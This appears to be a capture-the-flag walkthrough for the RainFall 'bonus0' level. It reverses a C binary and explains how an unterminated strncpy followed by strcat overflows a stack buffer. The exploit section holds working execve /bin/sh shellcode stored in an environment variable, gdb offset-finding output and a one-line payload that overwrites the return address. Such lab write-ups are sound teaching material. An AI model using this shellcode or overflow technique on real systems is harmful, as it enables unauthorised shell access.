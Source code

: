 # Walkthrough

Bonus time!

## Reversing

```c
void p(char *param_1,char *param_2)
{
  char *pcVar1;
  char local_100c [4104];

  puts(param_2);
  read(0,local_100c,0x1000);
  pcVar1 = strchr(local_100c,10);
  *pcVar1 = '\0';
  strncpy(param_1,local_100c,20);
  return;
}

void pp(char *param_1)
{
  char cVar1;
  uint uVar2;
  char *pcVar3;
  byte bVar4;
  char local_34 [20];
  char local_20 [20];

  bVar4 = 0;
  p(local_34," - ");
  p(local_20," - ");
  strcpy(param_1,local_34);
  uVar2 = 0xffffffff;
  pcVar3 = param_1;
  do {
    if (uVar2 == 0) break;
    uVar2 = uVar2 - 1;
    cVar1 = *pcVar3;
    pcVar3 = pcVar3 + (uint)bVar4 * -2 + 1;
  } while (cVar1 != '\0');
  *(undefined2 *)(param_1 + (~uVar2 - 1)) = 0x20;
  strcat(param_1,local_20);
  return;
}

int main(void)
{
  char local_3a [54];

  pp(local_3a);
  puts(local_3a);
  return 0;
}
```

Okey... interesting, it seems that `p` reads from `stdin`,
replaces the `\n` with a `\0`, and copies the first 20 bytes to
`param_1`. `param_2` is not really useful, it just prints it.

It seems like `p` makes an `strcpy` of the first `p` into `param_1`, then it
puts a `<space>` after it, and then it does an `strcat` of the second `p`
into `param_1`, so at the end, the main prints the concatenated strings.

`strncpy` is secure, not like `strcpy`, but it has a flaw, as the main says:
```raw
The stpncpy() and strncpy() functions copy at most len characters from src into dst.  If src is less
than len characters long, the remainder of dst is filled with `\0' characters.  Otherwise, dst is not
terminated.
```

So, if our read buffer is `4104` bytes long, but then it only checks for
`new lines` on the first 10 bytes, and only copies 20 bytes... If our input
is bigger than 20 bytes, the result string will not be null-terminated!

So, since the strings declared in `pp`, are 20 bytes long, and `p` will be able
to copy 20 bytes not null-terminated, we can make `local_34` and `local_20`,
who are together in the stack, be one big string.

So we can segfault the program with this not
null-terminated string by passing some bigger that 20 bytes inputs:
```bash
bonus0@RainFall:~$ ./bonus0
 -
aaaaaaaaaaaa
 -
aaaaaaaaaaaaa
aaaaaaaaaaaa aaaaaaaaaaaaa
bonus0@RainFall:~$ ./bonus0
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�� aaaaaaaaaaaaaaaaaaaa��
Segmentation fault (core dumped)
```

Cool, but we need to exploit this somehow. And since we don't have any help
function that executes `/bin/sh` or reads a file, I suppose we will need to
inject shell code.

Later on we have an `strcat`, that is as insecure as `strcpy`, in copies
the second parameter string to the first one, starting at the end of the first,
so, it concatenates s2 to s1 without worrying about boundaries or len of s1,
nice.

I think I might know where this is going... Let's try.

## Exploit

So... the thing is, with that `strcpy` we can copy 20 bytes, but, if it's not
null-terminated, we can copy both string, because, `local_20` is above
`local_34`, so, whes we pass a not null-terminated `local_34` to `strcpy`, it
will continue reading, and above `local_34` is `local_20`:
```naw
                     **************************************************************
                     *                          FUNCTION                          *
                     **************************************************************
                     undefined __cdecl pp(char * param_1)
     undefined         AL:1           <RETURN>
     char *            Stack[0x4]:4   param_1                                 XREF[4]:     08048553(R), 
                                                                                           08048563(R), 
                                                                                           08048582(R), 
                                                                                           08048592(R)  
     undefined1        Stack[-0x20]:1 local_20                                XREF[2]:     08048541(*), 
                                                                                           0804858b(*)  
     undefined1        Stack[-0x34]:1 local_34                                XREF[2]:     0804852e(*), 
                                                                                           0804854c(*)  
     undefined4        Stack[-0x40]:4 local_40                                XREF[2]:     08048566(W), 
                                                                                           08048574(R)  
     undefined4        Stack[-0x58]:4 local_58                                XREF[4]:     08048526(W), 
                                                                                           08048539(W), 
                                                                                           0804854f(W), 
                                                                                           0804858e(W)  
     undefined4        Stack[-0x5c]:4 local_5c                                XREF[4]:     08048531(*), 
                                                                                           08048544(*), 
                                                                                           08048556(*), 
                                                                                           08048595(*)  
```

So... We can copy 40 bytes of our choice to `param_1`, nice, we have our
shellcode, but how to execute it?

That's when the `strcat` enters the scene, you maybe thinking, why? If it
copies to `param_1`, who is in `main`, there's no way we can overwrite the
return address of `pp`... And you are right, but we can overwrite the
return address of `main` with it.

How? Well, the `local_3a` in `main`, has a size of `54` bytes, but, if we
copy `20` bytes to `s1`, then it will concatenate with `s2`, suppose we
null-terminate `s2` to avoid segfaults before our shellcode execution, then
we will be copying to the `buffer` in `main`:
- `s1` + `s2`
- `space`
- `s2`

And this will of course overflow the `buffer`.

I tried a lot of things... A lot... I'm having a hard time with this binary,
and I'm tired of trying to do it like we were probably supposed to, so,
let's go with all we have, and use env and patterns to finish this quickly.

First, let's use the env to store the shellcode, so, get the
`./resources/getaddr.c`, and let's start.

Let's export our shellcode, is the same as in `level9`:
```bash
# Nop sled to ensure we hit the target
export SC=$(printf "%90s" " " | tr ' ' 'Z'; printf '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')
gcc getaddr.c -o getaddr
./getaddr SC
```

The address is: `0xbffffe9e`.

So, now, let's calculate the offset to EIP, using the usual bof pattern:
```bash
gdb -q ./bonus0

(gdb) r

# input...
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```

Keep in mind is little endian, invert it, and, that's the `Aa3A`, that's means
its the fourth sequence, so, we need 3 sequences (9 bytes) to reach EIP.

So, our address must start after 9 bytes...

So, the payload will be:
- Prompt 1:
    - 20 bytes, as I said earlier, the point is to not null-terminate this string.
- Prompt 2:
    - 9 offset bytes
    - Address of shellcode

```bash
# Prompt 1
python3 -c "print('A' * 20)"

# Prompt 2 (addr in little endian, and enought bytes to reach 20 bytes)
python3 -c "print('A' * 9 + '\x9e\xfe\xff\xbf' + 'A' * 7)"
```

```bash
# One liner
(python -c "print 'A'*20"; python -c "print 'A'*9+'\x9e\xfe\xff\xbf'+'A'*7"; cat) | ./bonus0
```

Get the flag and lets go... I have mix feelings with this level... A whole day
to exploit it... Zzz...
